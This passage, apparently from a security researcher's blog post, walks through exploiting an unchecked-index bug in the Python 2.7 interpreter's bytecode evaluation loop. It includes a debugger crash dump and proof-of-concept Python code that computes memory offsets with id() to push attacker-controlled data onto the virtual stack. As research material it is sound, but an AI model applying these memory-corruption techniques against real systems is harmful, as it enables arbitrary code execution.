 ..and as expected you get a fault (*oparg* is *edi*):

```text craaaaaaash
(2058.2108): Access violation - code c0000005 (!!! second chance !!!)
[...]
eax=01cb1030 ebx=00000000 ecx=00000063 edx=00000046 esi=1e222c0c edi=beefdead
eip=1e0ec5f7 esp=0027e7f8 ebp=0273a9f0 iopl=0         nv up ei ng nz na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010287
python27!PyEval_EvalFrameEx+0x347:
1e0ec5f7 8b74b80c        mov     esi,dword ptr [eax+edi*4+0Ch] ds:002b:fd8a8af0=????????
```

By the way, some readers might have caught the same type of bug in *LOAD_FAST* with the *fastlocals* array ; those readers are definitely right :).

# Walking through the PoC #
OK, so if you look only at the faulting instruction you could say that the bug is minor and we won't be able to turn it into something "useful". But the essential piece when you want to exploit a software is to actually completely understand how it works. Then you are more capable of turning bugs that seems useless into interesting primitives.

As we said several times, from Python code you can't really push any value you want onto the Python virtual stack, obviously. The machine is only dealing with Python objects. However, with this bug we can corrupt the virtual stack by pushing arbitrary data that we control. If you do that well, you can end up causing the Python VM to call whatever address you want. That's exactly what I did back when I wrote [python27_abuse_vm_to_execute_x86_code.py](https://github.com/0vercl0k/stuffz/blob/master/Python's%20internals/python27_abuse_vm_to_execute_x86_code.py).

In Python we are really lucky because we can control a lot of things in memory and we have natively a way to "leak" (I shouldn't call that a leak though because it's a feature) the address of a Python object with the function *id*. So basically we can do stuff, we can do it reliably and we can manage to not break the interpreter, like bosses.

## Pushing attacker-controlled data on the virtual stack ##
We control *oparg* and the content of the tuple *consts*. We can also find out the address of that tuple. So we can have a Python string object that stores an arbitrary value, let's say *0xdeadbeef* and it will be pushed on the virtual stack.

Let's do that in Python now:

```python Pushing controlled value on the virtual stack
import opcode
import types
import struct

def pshort(s):
    return struct.pack('<H', s)

def a():
  pass

consts = ()
s = '\xef\xbe\xad\xde'
address_s = id(s) + 20 # 20 is the offset of the array of byte we control in the string
address_consts = id(consts)
# python27!PyEval_EvalFrameEx+0x347:
# 1e0ec5f7 8b74b80c        mov     esi,dword ptr [eax+edi*4+0Ch] ds:002b:fd8a8af0=????????
offset = ((address_s - address_consts - 0xC) / 4) & 0xffffffff
high = offset >> 16
low =  offset & 0xffff
print 'Consts tuple @%#.8x' % address_consts
print 'Address of controled data @%#.8x' % address_s
print 'Offset between const and our object: @%#.8x' % offset
print 'Going to push [%#.8x] on the virtual stack' % (address_consts + (address_s - address_consts - 0xC) + 0xc)
```